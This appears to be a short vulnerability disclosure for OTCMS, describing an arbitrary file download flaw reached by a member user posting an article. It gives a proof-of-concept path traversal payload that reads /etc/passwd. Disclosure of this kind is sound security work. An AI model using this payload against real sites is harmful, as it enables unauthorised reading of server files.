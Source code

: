 # OTCMS was discovered to contain an arbitrary file download vulenrability via the filename
## Description
    OTCMS was discovered to contain an arbitrary file download vulenrability via the filename
## Vendor Homepage
    http://otcms.com/

## Author
    HuBenLab
## Proof of Concept
Post an article after logging in as a member user.

![image-20230606101010699](./img/image-20230606101010699.png)

Add additional parameters to the packet capture

![image-20230606101031313](./img/image-20230606101031313.png)

payload

```
file=../../../../../../../../../../../../../etc/passwd&isRenameFile=1&fileName=1.php
```

Then it can be downloaded in the foreground to read the passwd file.

![image-20230606101126190](./img/image-20230606101126190.png)